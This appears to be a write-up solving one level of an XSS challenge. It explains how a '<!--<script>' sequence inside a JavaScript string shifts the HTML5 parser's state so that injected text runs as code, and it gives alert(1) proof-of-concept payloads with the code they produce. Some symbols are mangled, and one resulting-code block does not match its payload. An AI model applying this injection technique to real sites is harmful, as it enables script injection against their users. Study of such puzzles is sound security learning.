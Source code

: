 ```
			'</script>'
			);
    	}
```

In order to solve this level we need to be familiar with an HTML5 parser “feature” when dealing with comments in JS blocks. This feature is well described in this post (thanks for the hint @cgvwzq !).

The trick is that injecting an HTML5 single line comment “!—” followed by a “"script"” open tag will move the parser into the “script data double escaped state” until the closing script tag is found and then it will transition into “ script data escaped state ” and it will treat anything from the end of the string where we injected the “"!—"scrip"” as JS! only thing we need to do is making sure there is a “—>” so that the parser does not throw an invalid syntax exception.

So basically, if there is a “—>” somewhere in the code (or we can inject it) we can fool the parser into processing HTML as JS. The string where we inject “"!—"script"” will still be considered as a JS string an everything following the string will become JS.

For this level we will make the JS engine to parse the HTML part (URL: xxx). In order to do so, we will start our payload with “alert(1)” so that the first JS evaluated will be “URL: alert(1)” then we want to comment out the remaining JS code so we will insert a multi-line comment start “/ ”. This way everything else will be commented out until we reach the “ /” present in the regexp; the code from that point on will be evaluated. In order to get a valid regexp we will also inject “if(/a/” before the multi-line comment start. So our payload will look like:

```
    	alert(1);/*<!--<script>*/if(/a//*
```

The resulting code will be:

![](http://evilddog.qiniudn.com/escape.alf.nu_3.png)

Now if we clean it up and remove the comments (in grey):

```
    	<script>
    		var url = "alert(1);\/*<!--<script>*\/if(\/a\/\/*";
    		URL: alert(1); if(/a/.test(url)) console.log("Bad url: " + url);
   		 else new Image().src = url;
    	</script>
```

We can get it even shorter with:

```
    	if(alert(1)/*<!--<script>
```

This will turn into:

```
    	<script>
   	 	var url = "alert(1);\/*<!--<script>*\/if(\/a\/\/*";
    		URL: if(alert(1).test(url)) console.log("Bad url: " + url);
    		else new Image().src = url;
    	</script>
```
